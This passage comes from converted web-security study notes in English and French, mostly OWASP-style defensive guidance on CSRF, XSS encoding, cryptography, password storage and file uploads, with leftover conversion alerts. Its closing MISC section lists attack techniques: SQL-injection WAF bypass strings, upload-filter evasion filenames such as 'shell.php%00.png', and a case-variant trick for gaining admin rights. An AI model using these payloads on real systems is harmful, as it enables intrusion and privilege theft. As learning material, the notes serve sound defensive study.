</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
</table>


* Credential Stuffing Prevention

<table>
  <tr>
   <td>
<ul>

<li>Multi-Factor Authentication 
<ul>
 
<li>Multi-factor authentication (MFA) is by far the best defense against the majority of password-related attacks, including credential stuffing and password spraying.
<ul>

<li>In order to balance security and usability, only in specific circumstances MFA could be used : 
<ul>
 
<li>A new browser/device or IP address. 
<ul>
 
<li>An unusual country or location. 
<ul>
 
<li>Specific countries that are considered untrusted. 
<ul>
 
<li>An IP address that appears on known block lists. 
<ul>
 
<li>An IP address that has tried to login to multiple accounts. 
<ul>
 
<li>A login attempt that appears to be scripted rather than manual.
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Alternative Defenses 
<ul>
 
<li>Secondary Passwords, PINs and Security Questions :
 
<li>CAPTCHA
 
<li>IP Block-listing
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Defense in Depth 
<ul>
 
<li>Identifying Leaked Passwords
 
<li>Notify users about unusual security events
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Multi-Step Login Processes ( to discourage hacker ) 
<ul>
 
<li>By adding additional steps to this process, such as requiring the username and password to be entered sequentially
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
</table>


### 
    CSRF (Cross-Site Request Forgery Prevention)


<table>
  <tr>
   <td>
<ul>

<li>Use Built-In Or Existing CSRF Implementations for CSRF Protection
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>CSRF tokens should be generated once per user session or for each request ( for more security but less usability :  Interaction with a previous page will result in a CSRF false positive security event at the server ).
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>CSRF tokens should be:
<ul>

<li>Unique per user session.

<li>Secret

<li>Unpredictable (large random value generated by a secure method).
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Defense In Depth Techniques 
<ul>
 
<li>SameSite Cookie Attribute ( to not include cookie ) 
<ul>
 
<li>Verifying Origin With Standard Headers. Reliability on these headers comes from the fact that they cannot be altered programmatically (using JavaScript with an XSS vulnerability) as they fall under forbidden headers list, meaning that only the browser can set them :	  
<ul>
  
<li>Checking the Origin header
  
<li>Checking the Referrer header
<ul>

<li>User Interaction Based CSRF Defense 
<ul>
 
<li>Re-Authentication (password or stronger)
 
<li>One-time Token
 
<li>CAPTCHA
<ul>

<li>Inserting the CSRF token in the custom HTTP request header via JavaScript is considered more secure because it uses custom request headers : 
<ul>
 
<li>This defense relies on the same-origin policy (SOP) restriction that only JavaScript can be used to add a custom header, and only within its origin. By default, browsers do not allow JavaScript to make cross origin requests with custom headers.


<p id="gdcalert213" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image213.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert214">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
</table>


* XSS

Different Encoding type and Mechanism :


<table>
  <tr>
   <td>Encoding Type
   </td>
   <td>Encoding Mechanism
   </td>
  </tr>
  <tr>
   <td>HTML Entity Encoding
   </td>
   <td>Convert <code>&</code> to <code>&amp;</code>, Convert <code>&lt;</code> to <code>&lt;</code>, Convert <code>></code> to <code>&gt;</code>, Convert <code>"</code> to <code>&quot;</code>, Convert <code>'</code> to <code>&#x27;</code>, Convert <code>/</code> to <code>&#x2F;</code>
   </td>
  </tr>
  <tr>
   <td>HTML Attribute Encoding
   </td>
   <td>Except for alphanumeric characters, encode all characters with the HTML Entity <code>&#xHH;</code> format, including spaces. (HH = Hex Value)
   </td>
  </tr>
  <tr>
   <td>URL Encoding
   </td>
   <td>Standard percent encoding. URL encoding should only be used to encode parameter values, not the entire URL or path fragments of a URL.
   </td>
  </tr>
  <tr>
   <td>JavaScript Encoding
   </td>
   <td>Except for alphanumeric characters, encode all characters with the <code>\uXXXX</code> unicode encoding format (X = Integer).
   </td>
  </tr>
  <tr>
   <td>CSS Hex Encoding
   </td>
   <td>CSS encoding supports <code>\XX</code> and <code>\XXXXXX</code>.
   </td>
  </tr>
</table>


<table>
  <tr>
   <td>
<ul>

<li>HTML Encode Before Inserting Untrusted Data into HTML Element Content 
<ul>
 
<li>When you want to put untrusted data directly into the HTML body somewhere. This includes inside normal tags like div, p, b, td ...
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Use a Security Encoding Library instead of writing your own.
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Attribute Encode Before Inserting Untrusted Data into HTML Common Attributes 
<ul>
 
<li>1) Always quote dynamic attributes with " or '. 
        Quoted attributes can only be broken out of with the corresponding quote, while unquoted attributes can be broken out of with many characters ( including [space] % * + , - / ; &lt; = > ^ and |.) 
<ul>
 
<li>2) Encode the corresponding quote: " and ' should be encoded to &#x22; and &#x27; respectively.
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>JavaScript Encode Before Inserting Untrusted Data into JavaScript Data Values 
<ul>
 
<li>The only safe place to put untrusted data into this JS code is inside a quoted "data value". 
<ul>

<li>Please note there are some JavaScript functions that can never safely use untrusted data as input - EVEN IF JAVASCRIPT ENCODED  !!!
        For example : window.setInterval('...’), …
<ul>

<li>Avoid using any escaping shortcuts like \" because the quote character may be matched by the HTML attribute parser which runs first and these escaping are also susceptible to escape-the-escape attacks ( \\” ).
<ul>

<li>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>HTML Encode JSON values 
<ul>
 
<li>Ensure returned Content-Type header is application/json and not text/html
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>URL Encode Before Inserting Untrusted Data into HTML URL Parameter Values
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
</table>


### Résumé :


<p id="gdcalert214" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image214.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert215">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


###               	     Cryptographic Storage


<table>
  <tr>
   <td>
<ul>

<li>Passwords should not be stored using reversible encryption - secure password slow hashing algorithms should be used instead.
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>For symmetric encryption, AES-128 (ideally 256 bits) and a secure mode should be used as the preferred algorithm.
In some cases there may be regulatory requirements that limit the algorithms that can be used, such as FIPS 140-2 or PCI DSS.
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>For asymmetric encryption, use elliptical curve cryptography (ECC) with a secure curve such as Curve25519 as a preferred algorithm. If ECC is not available and RSA must be used, then ensure that the key is at least 2048 bits.
In some cases there may be regulatory requirements that limit the algorithms that can be used, such as FIPS 140-2 or PCI DSS.
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>INFO : Many other symmetric and asymmetric algorithms are available which have their own pros and cons, and they may be better or worse than AES or Curve25519 in specific use cases. When considering these, a number of factors should be taken into account, including: 
<ul>
 
<li>Key size.
 
<li>Known attacks and weaknesses of the algorithm.
 
<li>Maturity of the algorithm.
 
<li>Approval by third parties such as NIST's algorithmic validation program.
 
<li>Performance (both for encryption and decryption).
 
<li>Quality of the libraries available.
 
<li>Portability of the algorithm (i.e, how widely supported is it).
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Cipher Modes : 
<ul>
 
<li>Where available, authenticated modes should always be used. These provide guarantees of the integrity and authenticity of the data, as well as confidentiality.  The most commonly used authenticated modes are GCM and CCM, which should be used as a first preference.
<ul>

<li>If GCM or CCM are not available, then CTR mode or CBC mode should be used.  As these do not provide any guarantees about the authenticity of the data, separate authentication should be implemented, such as using the Encrypt-then-MAC technique.
        

<p id="gdcalert215" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image215.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert216">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p>

        to resume :
<ol>

<li>GCM or CCM

<li>CTR or CBC with a implemented authentication (Encrypt-then-MAC)
</li>
</ol>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Secure Random Number Generation 
<ul>
 
<li>Pseudo-Random Number Generators (PRNG) VS Cryptographically Secure Pseudo-Random Number Generators (CSPRNG) :

<table>
  <tr>
   <td>
PRNG
</li> 
</ul>
</li> 
</ul>
   </td>
   <td>CSPNRG
   </td>
  </tr>
  <tr>
   <td>provide low-quality randomness but much faster
   </td>
   <td> produce a much higher quality of randomness but they are slower and more CPU intensive.
   </td>
  </tr>
  <tr>
   <td rowspan="2" >Should be used for non-security related functionality. 
<p>
They must not be used for anything security critical, as it is often possible for attackers to guess or predict the output.
   </td>
   <td>safe to use for security-sensitive functionality.
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


<p id="gdcalert216" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image216.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert217">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Defence in Depth
    * Applications should be designed to still be secure even if cryptographic controls fail. Any information that is stored in an encrypted form should also be protected by additional layers of security (should enforce strong access control to prevent unauthorised access to information).
   </td>
  </tr>
  <tr>
   <td>
* Key Management
    * Keys should be randomly generated using a cryptographically secure function
    * Keys should not be based on common words or phrases, or on "random" characters generated by mashing the keyboard.
    * Key Lifetimes and Rotation
        * Encryption keys should be changed :
            * If the previous key is known (or suspected) to have been compromised.
            * After a specified period of time has elapsed (known as the cryptoperiod).
            * After the key has been used to encrypt a specific amount of data ( this would typically be 2^35 bytes (~34GB) for 64-bit keys and 2^68 bytes (~295 exabytes) for 128 bit keys.)
            * If there is a significant change to the security provided by the algorithm (such as a new attack being announced).
            * It is important that the code and processes required to rotate a key are in place before they are required
    * Key Storage
        * Where available, the secure storage mechanisms provided by the operating system, framework or cloud service provider should be used. These include:
            * A physical Hardware Security Module (HSM).
            * A virtuel HSM.
            * Key vaults such as Amazon KMS or Azure Key Vault.
            There are many advantages to using these types of secure storage :

* Central management of keys, especially in containerised environments.
* Easy key rotation and replacement.
* Secure key generation.
* Simplifying compliance with regulatory standards such as FIPS 140 or PCI DSS.
* Making it harder for an attacker to export or steal keys.
* Do not hard-code keys into the application source code.
* Protect the configuration files containing the keys with restrictive permissions.
    * Avoid storing keys in environment variables, as these can be accidentally exposed through functions such as phpinfo() or through the /proc/self/environ file.
    * Where possible, encryption keys should be stored in a separate location from encrypted data. For example, if the data is stored in a database, the keys should be stored in the filesystem. This means that if an attacker only has access to one of these (for example through directory traversal or SQL injection), they cannot access both the keys and the data.
   </td>
  </tr>
  <tr>
   <td>
* 
   </td>
  </tr>
  <tr>
   <td>
* 
   </td>
  </tr>
</table>


### Database Security


<table>
  <tr>
   <td>
<ul>

<li>The backend database used by the application should be isolated as much as possible, in order to prevent malicious or undesirable users from being able to connect to it. The following options could be used to protect it : 
<ul>
 
<li>Restricting access to the network port to specific hosts with firewall rules. 
<ul>
 
<li>Placing the database server in a separate DMZ isolated from the application server.
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>When an application is running on an untrusted system (such as a thick-client), it should always connect to the backend through an API that can enforce appropriate access control and restrictions. Direct connections should never be made from a thick client to the backend database.
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Transport Layer Protection : 
<ul>
 
<li>Configure the database to only allow encrypted connections if it possible 
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Authentication 
<ul>
 
<li>The database should be configured to always require authentication, including connections from the local server. Database accounts should be Protected with strong and unique passwords.
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Database Configuration and Hardening 
<ul>
 
<li>The database application should also be properly configured and hardened. The following principles should apply to any database application and platform:  
<ul>
  
<li>Install any required security updates and patches.  
<ul>
  
<li>Configure the database services to run under a low privileged user account.  
<ul>
  
<li>Remove any default accounts and databases.  
<ul>
  
<li>Store transaction logs on a separate disk to the main database files.  
<ul>
  
<li>Configure a regular backup of the database.  
<ul>
  
<li>Ensure that the backups are protected with appropriate permissions, and ideally encrypted.
</li>  
</ul>
</li>  
</ul>
</li>  
</ul>
</li>  
</ul>
</li>  
</ul>
</li>  
</ul>
</li>  
</ul>
</li>  
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


### Php configuration


<table>
  <tr>
   <td>
<ul>

<li>php.ini
<ul>

<li>

<p id="gdcalert217" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image217.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert218">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


 
<ul>
 
<li>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Snuffleupagus
</li>
</ul>
   </td>
  </tr>
</table>


### Unvalidated Redirects and Forwards


<table>
  <tr>
   <td>
<ul>

<li>When applications allow user input to forward requests between different parts of the site, the application must check that the user is authorized to access the URL.
    If the application fails to perform these checks, an attacker crafted URL may pass the application's access control check and then forward the attacker to an administrative function that is not normally permitted.
<p>

    

<p id="gdcalert218" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image218.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert219">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Preventing Unvalidated Redirects and Forwards 
<ul>
 
<li>Sanitize input by creating a list of trusted URLs (lists of hosts or a regex).
        This should be based on an allow-list approach, rather than a block list. 
<ul>
 
<li>Force all redirects to first go through a page notifying users that they are going off of your site, with the destination clearly displayed, and have them click a link to confirm.
<ul>

<li>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


### File Uploads


<table>
  <tr>
   <td>
<ul>

<li>There is no silver bullet in validating user content. Implementing a defense in depth approach is key to make the upload process harder and more locked down to the needs and requirements for the service
    Implementing multiple techniques is key and recommended, as no one technique is enough to secure the service.
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>File Upload Protection 
<ul>
 
<li>Extension validation  
<ul>
  
<li>Ensure that the validation occurs after decoding the file name, and that a proper filter is set in place in order to avoid certain known bypasses:   
<ul>
   
<li>Double extensions
   
<li>Null bytes (.php%00.jpg)
<ul>

<li>List Allowed Extensions 
<ul>
 
<li>Ensure the usage of business-critical extensions only, without allowing any type of non-required extensions. For example if the system requires:  
<ul>
  
<li>Image upload, allow one type that is agreed upon to fit the business requirement.
  
<li>Cv upload, allow docx and pdf extensions.
<ul>

<li>Content-Type Validation 
<ul>
 
<li>Other than defining the extension of the uploaded file, its MIME-type can be checked for a quick protection against simple file upload attacks. 
<ul>
 
<li>This can be done preferably in an allow list approach
<ul>

<li>File Signature Validation 
<ul>
 
<li>In conjunction with content-type validation, validating the file's signature can be checked and verified against the expected file that should be received.
            This should not be used on its own, as bypassing it is pretty common and easy.
<ul>

<li>Filename Sanitization 
<ul>
 
<li>Creating a random string as a file-name, such as generating a UUID/GUID, is essential. 
<ul>
 
<li>If user filenames are required, consider implementing the following:  
<ul>
  
<li>Implement a maximum length  
<ul>
  
<li>Restrict characters to an allowed subset specifically, such as alphanumeric characters, hyphen, spaces, and periods.
<ul>

<li>File Content Validation 
<ul>
 
<li>Based on the expected type, special file content validation can be applied:  
<ul>
  
<li>For images, applying image rewriting techniques destroys any kind of malicious content injected in an image; this could be done through randomization.  
<ul>
  
<li>ZIP files are not recommended since they can contain all types of files, and the attack vectors pertaining to them are numerous.
<ul>

<li>File Storage Location 
<ul>
 
<li>The following points are set by security priority, and are inclusive:  
<ul>
  
<li>Store the files on a different host  
<ul>
  
<li>Store the files outside the webroot, where only administrative access is allowed or inside the webroot, and set them in write permissions only.  
<ul>
  
<li>Set the files permissions on the principle of least privilege
<ul>

<li>Upload and Download Limits 
<ul>
 
<li>The application should set proper size limits for the upload service in order to protect the file storage capacity. 
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
    -
   </td>
  </tr>
  <tr>
   <td>
    -
   </td>
  </tr>
  <tr>
   <td>
    -
   </td>
  </tr>
  <tr>
   <td>

<p id="gdcalert219" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image219.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert220">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


   </td>
  </tr>
</table>


* Password Storage

<table>
  <tr>
   <td>
<ul>

<li>Passwords should be hashed, NOT encrypted.
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Salt should be unique per user.
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Salt is used to : 
<ul>
 
<li>Increase the time consumed in brute force or Dictionary attack
<ul>

<li>Against rainbow-table 
<ul>
 
<li>Salting also means that it is impossible to determine whether two users have the same password 
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Modern hashing algorithms such as Argon2id, bcrypt, and PBKDF2 automatically salt the passwords, so no additional steps are required when using them.
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Peppering : 
<ul>
 
<li>A pepper can be used in addition to salting to provide an additional layer of protection. The purpose of the pepper is to prevent an attacker from being able to crack any of the hashes if they only have access to the database.
<ul>

<li>One of several peppering strategies (there are multiples strategies in peppering) is to hash the passwords as usual (using a password hashing algorithm) and then HMAC or encrypt the hashes with a symmetrical encryption key before storing the password hash in the database, with the key acting as the pepper.
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Work Factors : 
<ul>
 
<li>The work factor is essentially the number of iterations of the hashing algorithm that are performed for each password (usually, it's actually <em>2^work</em> iterations).
        The purpose of the work factor is to make calculating the hash more computationally expensive.
<ul>

<li>When choosing a work factor, a balance needs to be struck between security and performance.
<ul>

<li>There is no golden rule for the ideal work factor - it will depend on the performance of the server and the number of users on the application. Determining the optimal work factor will require experimentation on the specific server(s) used by the application. As a general rule, calculating a hash should take less than one second.
<ul>

<li>One key advantage of having a work factor is that it can be increased over time as hardware becomes more powerful and cheaper.
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>International Characters :
        Ensure your hashing library is able to accept a wide range of characters and is compatible with all Unicode codepoints.
<p>

        Password hashing libraries need to be able to use input that may contain a NULL byte.
<p>

        Users should be able to use the full range of characters available on modern devices, in particular mobile keyboards.
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>

<p id="gdcalert220" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image220.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert221">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


   </td>
  </tr>
</table>


* MISC

#### 
                      MISC checklist


<table>
  <tr>
   <td>
<ul>

<li>Everytime that you see something that can be controlled by an attacker joined with a system path, make sure to prevent Directory Transversal attack
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>When you are doing a signature verification or a cryptographic data verification, make sure that the comparison is done in constant time regardless of the similarity in the values compared ( to avoid brute force ( time ) blind attack character per character ) . 
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Que signifie FIPS ? 
<ul>
 
<li>L’acronyme FIPS renvoie à « Federal Information Processing Standards » (normes fédérales de traitement de l’information). 
        La série de normes FIPS 140 correspond aux normes de sécurité informatique établies par le National Institute of Standards & Technology (NIST) pour le gouvernement des États-Unis.
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
</table>


* Different general and direct way for WAF bypasses :
    * URL encode / Double URL encode ( ‘ => %27 ou %2527 )
    * HTML encode ( ‘ => &#x27; ou &#x00027; ou &apos; ou &#39; )
* Caractère espace => /**/ ( commentaire vide avec une syntaxe selon le contexte)
* Breaking restriction in sensitive word like this : 
    * /**/UN/**/ION/**/SEL/**/ECT …
    * uni*on sel*ect
    * uNiOn ALl sElEcT .. ( Change cases )
    * UnIoN SeLselectECT …. ( against str_replace )
* Adding CRLF in some places ( %0A%0D ): 
    * %0A%0Dunion%0A%0D+%0A%0D+%0A%0Dselect+%0A%0D+1,2,3,4,5+--+-


<p id="gdcalert221" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image221.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert222">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert222" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image222.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert223">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **Attention de ne pas laisser des fichiers sensible pouvant être lue ( visible par l’URL ) dans le serveur par exemple :**
    * **Exemple fichiers :**
        * **Fichiers se finissant par “~” ( type de fichier temporaire backup ).**
        * **Fichiers de backup : *.[bak - backup - tmp - gho]. Il en existe beaucoup.Tout dépends du système utilisé.**
        * **Fichiers d’installation de framework php.**
        * **Fichier .git. ( extraction with GitTool ) ou .svn ( subversion )**
* **Dû aux différentes manières de comparer une chaîne de caractère au nouveau code back-end et base de donnée, on peut tenter de créer un compte admin avec le même nom de compte mais avec des majuscule/minuscule échangés pour obtenir ses droits. **

        **La base de données ne va pas faire la différence entre “admin” et  “AdMIN” par exemple. Ou pareil pour “admin” et “admin    ”.**

* **Si une redirection est effectuée ( sur une page ), toujours look les infos retournées par le serveur dans les requêtes réponses intermédiaires.**
* **A Classic mistake with modern frameworks : Here most of the code is generated automatically and access to different formats (HTML, JSON) for the same database record is also done automatically.**

        **For example, by accessing /users/1, you will see an HTML page with the first user's details. crucial information has been masked.**


        **Fortunately, you should be able to access the JSON representation of this information details by modifying the URL ( /users/1.json ).**

* **In LDAP server ( Database ), if NULL bind is configured, you can connect to the DB without credentials ( just with NULL values, removing the username and password POST parameters ). **

        **It’s what we call a bind connection ( with less privileges than a common user ).**

* **Serving requests for a single application can be done by multiple backends. It can pay off to send the same request multiple times to check if multiple backends are involved.**
6. **TXT records ( in DNS ) are often used to show that people own a domain or to store information to configure services, it's always a good idea to check for those. **

    **It's sometimes possible to retrieve information from internal zones by asking publicly available servers.**

* **The idea behind chunk-encoding ( with the header _Transfer-encoding: chunked _) is that the server can send content without waiting for the full response to be ready. The server sends the size of a chunk (in hexadecimal) followed by the chunk.**


<p id="gdcalert223" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image223.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert224">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* La méthode HTTP HEAD demande les en-têtes qui seraient retournés si la ressource spécifiée était demandée avec une méthode HTTP GET. Une telle requête peut être envoyée avant de procéder au téléchargement d'une  ressource volumineuse, par exemple pour économiser de la bande passante.
* Filter input against “Directory traversal attack” ( exemple : str_replace ça : “../” ).
* Faire attention à gérer tous les types de requêtes reçues ( pas que GET et POST ) dans le code du serveur : HEAD, PUT, DELETE, CONNECT, TRACE, PATCH, OPTIONS. 
* Filtrer les 2 caractères CRLF (“\r\n”) sur les champs sensibles à ce genre d’attaque (avec un “str_replace” par exemple).
* Lors de l’upload de fichier (des images par exemples), faire attention à l’attaque du “double extension” or “different extension.

                Exemple : 

* shell.php.png ou shell.php%00.png&lt;-( null-byte attack) (fichier php déguisé en png).
* shell.php3 which will bypass a simple filter on .php
* shell.php.test which will bypass a simple filter on _.php_ and Apache will still use _.php_ since in this configuration it doesn't have an handler for _.test_.

<p style="text-align: right">


<p id="gdcalert224" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image224.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert225">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


</p>


            Faire aussi attention à vérifier si la valeur header Content-Type est bonne. Il peut être utilisé par un attaquant pour faire croire que le fichier envoyé est du type qu’il indique lui-même dans la requête alors que ce n’est pas le cas.


* The HTTP TRACE method is designed for diagnostic purposes. If enabled, the web server will respond to requests that use the TRACE method by echoing in the response the exact request that was received.

             


            This behavior is often harmless, but occasionally leads to information disclosure, such as the name of internal authentication headers that may be appended to requests by reverse proxies.

* it is worth trying to navigate to /robots.txt or /sitemap.xml manually to see if you find anything of use in web gathering information. it's always a good idea visit all the pages that are "disallowed" to find sensitive information.
* The Same-Origin Policy is one of the fundamental defenses deployed in modern web applications. It restricts how a script from one origin can interact with the resources of a different origin. It is critical in preventing a number of common web vulnerabilities.

            The same-origin policy is a web browser security mechanism that aims to prevent websites from attacking each other.

* Attention à utiliser la fonction “assert()” et “eval()” sur un input utilisateur ( et peut-être même en général ). Un utilisateur malveillant peut injecter du code que “assert” exécutera.
* Pour accéder à certains fichiers, lorsque l’on connaît leurs localisation, l’utilisation des liens symboliques peut être efficace pour bypasser certains protections ( différente extension que le fichier d’origine etc …).
* Make sure that when building a signature, it can’t be reused itself in another component in the application.


<p id="gdcalert225" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image225.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert226">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert226" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image226.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert227">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


7.  Javascript security
* CDN in JS:

### 
Description


